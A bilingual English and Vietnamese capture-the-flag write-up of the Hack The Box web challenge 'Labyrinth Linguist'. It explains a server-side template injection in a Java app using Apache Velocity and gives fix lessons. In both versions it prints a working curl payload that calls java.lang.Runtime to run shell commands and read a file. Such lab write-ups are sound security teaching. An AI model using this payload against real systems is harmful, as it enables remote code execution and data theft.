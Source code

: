 ### **English Version**

# HTB - Labyrinth Linguist

  * **Category:** Web
  * **Tags:** SSTI, Server-Side Template Injection, Java, Apache Velocity, RCE

-----

## **1. Challenge Summary**

The challenge provided a web application named "Labyrinth Linguist," designed to translate English text into a fictional language, "voxalith." We were given the Java source code, which revealed a Spring Boot application using the Apache Velocity template engine. The goal was to find a vulnerability that would allow us to read a flag file on the server.

-----

## **2. Initial Analysis & Reconnaissance**

The first and most critical step was analyzing the provided `Main.java` source code. The core logic resided in the `index` and `readFileToString` methods.

I observed that the user-supplied `textString` parameter was directly inserted into the HTML template content using `line.replace("TEXT", replacement)`. This modified template string was then passed to the Velocity engine for parsing and rendering. This is a classic and highly critical pattern for Server-Side Template Injection (SSTI).

-----

## **3. The Vulnerability**

The application was vulnerable to **Server-Side Template Injection (SSTI)**.

The fundamental flaw was that the application modified the template file as a raw string *before* the template engine processed it. A secure implementation would pass user data into the template's context as a variable (e.g., `context.put("userInput", textString)`), which Velocity would safely render as a string.

Instead, by injecting the user's input directly into the template body, we could include Velocity's special syntax (directives like `#set` and references like `$var`) which the engine would then execute as code.

-----

## **4. Exploitation Steps**

The exploitation followed a logical progression from confirming the vulnerability to achieving Remote Code Execution (RCE).

1.  **Confirming SSTI:** My first step was to submit a basic Velocity expression to confirm that it would be evaluated. The payload `text=#set($a=7*7)$a` was sent, and the server correctly responded with `49`, proving the injection point.

2.  **Escalating to RCE:** With SSTI confirmed, the next step was to achieve RCE. Since Velocity runs in a Java environment, we can access underlying Java classes. I crafted a payload to get an instance of `java.lang.Runtime`, execute an OS command (`ls -la /app`), and then use a `java.util.Scanner` object to read the command's output stream and display it on the page.

3.  **Locating and Reading the Flag:** The `ls` command executed successfully, showing the application's directory structure and confirming we had `root` privileges. To find the flag, I used the `find` command (`find / -name *flag*`). This would have revealed the flag's location. Based on your final payload, it was located at `/app/flag.txt`. The final step was to change the command in our RCE payload to `cat /app/flag.txt` to read its contents.

-----

## **5. Final Exploit / Payload**

The final payload, URL-encoded and sent via `curl`, reads the flag from the server:

```bash
curl -X POST http://<TARGET_IP>:<TARGET_PORT>/ --data-urlencode 'text=#set($x="")#set($rt=$x.class.forName("java.lang.Runtime"))#set($zt=$rt.getRuntime())#set($cmd="cat /app/flag.txt")#set($process=$zt.exec($cmd))#set($inputStream=$process.getInputStream())#set($scanner=$x.class.forName("java.util.Scanner").getConstructor($x.class.forName("java.io.InputStream")).newInstance($inputStream).useDelimiter("\\A"))#set($output=$scanner.next())Voxalith Translation: $output'
```

-----

## **6. Key Takeaways & Lessons Learned**

  * **Never trust user input in template strings:** The core lesson is the immense danger of concatenating or replacing parts of a template file with raw user input before rendering. Data should always be passed securely through the context.
  * **Velocity's Power is a Double-Edged Sword:** Velocity's ability to interact with underlying Java objects makes it extremely powerful, but also a prime target for RCE when an SSTI vulnerability is present.

-----

### **Phiên Bản Tiếng Việt**

# HTB - Labyrinth Linguist

  * **Chuyên mục:** Web
  * **Tags:** SSTI, Server-Side Template Injection, Java, Apache Velocity, RCE

-----

## **1. Tóm Tắt Thử Thách**

Thử thách cung cấp một ứng dụng web có tên "Labyrinth Linguist", với chức năng dịch văn bản tiếng Anh sang một ngôn ngữ hư cấu là "voxalith". Chúng ta được cung cấp mã nguồn Java, cho thấy đây là một ứng dụng Spring Boot sử dụng template engine Apache Velocity. Mục tiêu là tìm ra lỗ hổng để đọc được file flag trên máy chủ.

-----

## **2. Phân Tích & Trinh Sát Ban Đầu**

Bước đầu tiên và quan trọng nhất là phân tích file mã nguồn `Main.java`. Logic chính nằm trong hai phương thức `index` và `readFileToString`.

Ta đã quan sát thấy tham số `textString` do người dùng cung cấp được chèn trực tiếp vào nội dung template HTML thông qua lệnh `line.replace("TEXT", replacement)`. Chuỗi template đã bị sửa đổi này sau đó được chuyển đến engine Velocity để phân tích và render. Đây là một dấu hiệu kinh điển và rất nguy hiểm của lỗ hổng Server-Side Template Injection (SSTI).

-----

## **3. Lỗ Hổng**

Ứng dụng có lỗ hổng **Server-Side Template Injection (SSTI)**.

Sai lầm cơ bản là ứng dụng đã sửa đổi file template dưới dạng một chuỗi thô *trước khi* template engine xử lý nó. Một cách triển khai an toàn sẽ truyền dữ liệu người dùng vào context của template như một biến (ví dụ: `context.put("userInput", textString)`), và Velocity sẽ hiển thị nó một cách an toàn dưới dạng chuỗi.

Thay vào đó, bằng cách chèn thẳng dữ liệu của người dùng vào thân template, chúng ta có thể đưa vào các cú pháp đặc biệt của Velocity (chỉ thị như `#set` và tham chiếu như `$var`), và engine sẽ thực thi chúng như mã lệnh.

-----

## **4. Các Bước Khai Thác**

Quá trình khai thác diễn ra theo một trình tự logic, từ việc xác nhận lỗ hổng đến việc đạt được thực thi mã lệnh từ xa (RCE).

1.  **Xác nhận SSTI:** Bước đầu tiên là gửi một biểu thức toán học cơ bản của Velocity để xác nhận rằng nó sẽ được thực thi. Payload `text=#set($a=7*7)$a` được gửi đi, và máy chủ trả về kết quả chính xác là `49`, chứng minh được điểm injection.

2.  **Leo thang lên RCE:** Khi đã xác nhận được SSTI, bước tiếp theo là đạt được RCE. Vì Velocity chạy trong môi trường Java, chúng ta có thể truy cập các lớp Java cơ bản. Ta tạo một payload để lấy một instance của `java.lang.Runtime`, thực thi một lệnh của hệ điều hành (`ls -la /app`), sau đó sử dụng đối tượng `java.util.Scanner` để đọc output stream của lệnh và hiển thị nó trên trang.

3.  **Định vị và Đọc Flag:** Lệnh `ls` đã thực thi thành công, cho thấy cấu trúc thư mục của ứng dụng và xác nhận chúng ta đang chạy với quyền `root`. Để tìm flag, sử dụng lệnh `find` (`find / -name *flag*`). Lệnh này sẽ cho thấy vị trí của file flag. Dựa trên payload cuối cùng, nó nằm ở `/app/flag.txt`. Bước cuối cùng là thay đổi lệnh trong payload RCE thành `cat /app/flag.txt` để đọc nội dung của nó.

-----

## **5. Payload / Khai Thác Cuối Cùng**

Payload cuối cùng, đã được URL-encode và gửi qua `curl`, dùng để đọc flag từ máy chủ:

```bash
curl -X POST http://<TARGET_IP>:<TARGET_PORT>/ --data-urlencode 'text=#set($x="")#set($rt=$x.class.forName("java.lang.Runtime"))#set($zt=$rt.getRuntime())#set($cmd="cat /app/flag.txt")#set($process=$zt.exec($cmd))#set($inputStream=$process.getInputStream())#set($scanner=$x.class.forName("java.util.Scanner").getConstructor($x.class.forName("java.io.InputStream")).newInstance($inputStream).useDelimiter("\\A"))#set($output=$scanner.next())Voxalith Translation: $output'
```

-----

## **6. Bài Học Kinh Nghiệm**

  * **Không bao giờ tin tưởng input người dùng trong chuỗi template:** Bài học cốt lõi là sự nguy hiểm cực độ của việc nối hoặc thay thế các phần của file template bằng dữ liệu thô từ người dùng trước khi render. Dữ liệu phải luôn được truyền một cách an toàn thông qua context.
  * **Sức mạnh của Velocity là con dao hai lưỡi:** Khả năng tương tác với các đối tượng Java cơ bản của Velocity làm cho nó cực kỳ mạnh mẽ, nhưng cũng biến nó thành một mục tiêu hàng đầu cho RCE khi có lỗ hổng SSTI.
